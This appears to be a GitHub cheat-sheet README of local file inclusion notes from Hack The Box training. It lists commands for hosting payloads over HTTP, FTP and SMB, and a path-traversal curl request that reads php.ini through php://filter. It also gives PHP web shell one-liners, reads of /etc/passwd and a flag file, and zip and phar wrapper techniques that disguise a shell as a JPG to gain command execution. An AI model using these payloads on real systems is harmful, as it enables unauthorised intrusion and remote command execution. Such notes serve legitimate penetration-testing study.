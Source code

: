 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
```
[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```
Code: php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
